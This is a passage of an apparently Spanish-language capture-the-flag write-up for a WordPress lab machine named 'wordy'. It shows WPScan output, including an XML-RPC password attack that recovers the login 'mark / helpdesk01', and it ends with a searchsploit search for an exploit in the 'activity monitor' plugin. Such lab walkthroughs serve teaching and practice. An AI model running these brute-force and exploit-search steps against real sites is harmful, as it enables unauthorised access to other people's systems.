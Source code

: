 ```bash
 |  - http://wordy/index.php/feed/, <generator>https://wordpress.org/?v=5.1.1</generator>
 |  - http://wordy/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.1.1</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://wordy/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-04-02T00:00:00.000Z
 | Readme: http://wordy/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.6
 | Style URL: http://wordy/wp-content/themes/twentyseventeen/style.css?ver=5.1.1
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://wordy/wp-content/themes/twentyseventeen/style.css?ver=5.1.1, Match: 'Version: 2.1'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <==============================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 5 user/s
[SUCCESS] - mark / helpdesk01                                                                                                                                
Trying jens / !lak019b Time: 00:04:41 <================================================================               > (12547 / 15215) 82.46%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mark, Password: helpdesk01

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu May  9 14:24:55 2024
[+] Requests Done: 12687
[+] Cached Requests: 38
[+] Data Sent: 6.226 MB
[+] Data Received: 7.403 MB
[+] Memory used: 312.648 MB
[+] Elapsed time: 00:04:49
```
Con esto habremos obtenido credenciales del usuario llamado 'mark'
```bash
username: mark
password: helpdesk01
```
Ahora que disponemos de las credenciales, podemos acceder a WordPress desde /wp-login.php. Al ingresar, notamos que hay un complemento llamado Active Monitor instalado en el panel. Podemos aprovechar esto para buscar un exploit que esté relacionado con "activity-monitor"
```bash
searchsploit activity monitor
```